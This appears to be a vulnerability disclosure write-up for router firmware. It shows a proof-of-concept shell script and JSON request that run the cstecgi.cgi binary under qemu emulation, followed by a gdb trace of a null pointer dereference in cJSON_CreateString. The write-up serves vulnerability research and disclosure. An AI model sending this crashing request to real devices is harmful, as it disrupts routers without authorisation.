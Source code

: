 

## poc

### getPortLinkStaus.sh
```bash
#!/bin/bash
#! `cat /proc/rtl865x/port_status | grep Link > /tmp/port_status` failed
# `v0 = fopen64("/tmp/port_status", "r");` makes v0 as null
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi_410F78.cgi  < getPortLinkStaus.json
```

### getPortLinkStaus.json
```json
{
    "topicurl" : "UploadCustomModule/getSysStatusCfg",
}
```

## Reproduce
```bash
./getPortLinkStaus.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

When `fopen` failed, `getPortLinkStatus` will return a null pointer.
![alt text](image-9.png)

Tracing execution path from this point, we can trace that the null pointer is passed into `cJSON_CreateString` function.

![alt text](image-8.png)

![alt text](image-10.png)

In the `cJSON_CreateString`, this null pointer will be dereferenced.

![alt text](image-11.png)


